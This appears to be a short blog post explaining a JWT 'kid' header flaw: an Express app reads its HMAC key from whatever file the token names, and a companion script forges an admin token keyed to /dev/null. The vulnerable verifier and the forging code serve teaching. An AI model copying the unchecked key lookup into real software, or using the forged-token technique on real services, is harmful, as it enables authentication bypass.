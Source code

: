```yaml
---
title: '[TIL] JWT using KeyID'
author: hoppi
date: 2023-01-28 17:56:00 + 0000
categories: [Web]
tags: [web, jwt, kid]
---
```


I saw this vulnerable code in tweet.  
we need to access `/protected` endpoint using `req.name` as admin. 
```javascript
const fs = require('fs');
var jwt = require('jsonwebtoken');
const cookieParser = require('cookie-parser');
const app = require('express')();
app.use(cookieParser());

app.use((req, res, next) => {
    const token = req.cookies.session;
    if (!token) return res.sendStatus(403);
    jwt.verify(token,
        (header, cb) => {
            cb(null, fs.readFileSync(header.kid));
        }, { algorithm: 'HS256' }, (err, data) => {
            if (err) return res. sendStatus (403);
            req.name = data.name;
            return next();
        }
        );
});

app.get('/protected', (req, res) => {
    if (req.name !=='admin') return res.sendStatus(401);
    res.send('You are the admin!');
});

app.listen(80);
```
{: file='app.js'}
<br/>

In the code above, Verifying the token with HS256 algorithm which is uses secret key to signing. and there is `header.kid (KeyID)`, optional header parameter, which is used to sign it.  
And then it goes to `readFileSync()` argument so they use this as `secret key`.  

The problem is that there is no verification of `header.kid`, <u>so if any file name existing in the target system is entered, we can sign the token with arbitrary key.</u> (ex `/etc/passwd`, `node_modules/jsonwebtoken/LICENSE`, `/dev/null` etc...)  

And if the `data.name` is manipulated with `admin`, `/protected` endpoint become accessible!  
<br/>

You can create a arbitrary token as shown below.  
```javascript
const fs = require('fs');
var jwt = require('jsonwebtoken');

const key = fs.readFileSynce('/dev/null');
const session = jwt.sign({name: 'admin'}, key, {
    keyid: '/dev/null',
    algorithm: 'HS256',
});
```
{: file='token.js'}
<br/>

# Reference
***
- [https://twitter.com/intigriti/status/1618589709617463297?s=61&t=phXMx6I4fkbUdA-CHZ1mug](https://twitter.com/intigriti/status/1618589709617463297?s=61&t=phXMx6I4fkbUdA-CHZ1mug)